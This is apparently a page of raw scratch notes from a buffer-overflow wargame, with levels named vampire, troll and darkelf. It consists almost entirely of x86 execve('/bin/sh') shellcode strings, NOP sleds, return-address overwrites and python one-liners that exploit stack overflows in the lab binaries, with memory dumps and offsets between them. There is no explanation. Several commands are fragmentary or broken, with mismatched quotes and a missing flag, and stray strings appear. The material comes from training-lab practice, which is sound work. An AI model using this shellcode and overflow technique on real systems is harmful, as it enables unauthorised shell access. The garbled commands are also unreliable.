 
/bin/sh without \x2f
	\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

0xbfffffdf:      "/home/vampire/tmp/../tmp/p10"
0xbfffffd1:      "/home/vampire/tmp/.././././././././tmp/p10"

SHELLCODE :> 23
	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

40-23 + 


tmp/p18 `python -c 'print "\x90"* 15 +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"


c
25

`python -c 'print "\x90" * 15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xdc"'`


$ exec -a `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` ./troll `python -c 'print "\x90"*40 + "\x30\xfc\xff\xbf"*2'`

./darkelf `python -c 'print "A"*44+"\x84\xfc\xff\xbf"'` `python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


r `python -c 'print "A"*44 +"\xbf\xbf\xbf\xbf"'`



0x6d6f682f      0x61642f65      0x6c656b72      0x6d742f66
/home/darkelf/tmp/p8 => 20
0xbffffc21c:     0x38702f70

`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

./troll `python -c 'print"A"*44 +"BBB"+"\xbf" +"\x00" +"CCCC"'`

exec ./p8  -a `python 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

`python -c 'print "\x90" * 44 + "\x28\x88\xfe\xbf"+"\x90" * 10000'+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

0x400309cb + 24

pdntspa
apstndp



EGG
0xbffffdc2
\xc2\xfd\xff\xbf

